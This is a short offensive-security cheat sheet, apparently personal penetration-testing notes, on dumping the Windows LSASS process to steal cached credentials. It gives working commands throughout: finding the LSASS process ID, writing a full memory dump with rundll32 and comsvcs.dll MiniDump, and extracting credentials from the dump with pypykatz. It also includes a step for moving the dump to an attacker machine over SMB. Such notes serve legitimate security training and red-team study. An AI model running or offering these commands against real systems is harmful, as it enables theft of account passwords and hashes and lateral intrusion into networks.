 ## Attacking LSASS

### Overview

- **Process:** `lsass.exe` is always running and stores cached credentials, access tokens, etc.
- **Method:** Dump `lsass.exe` memory for credential extraction.

### Dumping LSASS Process Memory

#### Using Task Manager

1. Open Task Manager.
2. Find `lsass.exe`.
3. Create a memory dump.
4. Transfer the dump file to the attacker machine using SMB.

#### Using Rundll32.exe & Comsvcs.dll

##### Finding LSASS PID

- **Using CMD:**

```cmd
tasklist /svc
```

- **Using PowerShell:**

```powershell
Get-Process lsass
```

##### Creating lsass.dmp Using PowerShell

```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <pid> C:\lsass.dmp full
```



#### Using Pypykatz to Extract Credentials from dump

```shell
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```




